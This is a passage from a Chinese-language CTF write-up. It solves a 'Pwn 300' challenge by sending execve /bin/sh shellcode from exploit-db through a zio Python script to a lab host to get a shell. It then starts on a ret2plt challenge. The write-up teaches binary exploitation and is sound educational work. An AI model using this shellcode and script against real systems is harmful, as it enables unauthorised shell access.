 `N^X`保护没有打开，说明可以直接传入shellcode执行。且`CANARY`打开，说明不太容易通过覆盖返回地址来达到劫持控制流的目的。到`www.exploit-db.com/`随便找一个短一些的shellcode，用`zio`写一个脚本：

```python
#!/usr/bin/env python

from zio import *

IP = "10.10.175.209"
port = 10003

shellcode = "\x31\xc0\x99\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80"
conn = zio((IP, port))
#conn = zio("./pwn300")
conn.writeline(shellcode)
conn.interact()
```

成功获得shell，发现当前目录下有flag，cat打开：

![](images/pwn300-pwn.png)

(never guess gin's thoughts)

### Pwn 400 C语言-还有这种操作-程序设计

```
题目：停车！这不是去幼儿园的车！

nc 10.10.175.209 10004
```

考查使用`ret2plt`绕过`N^X`限制。

IDA F5看一下程序：

![](images/pwn400-f5.png)
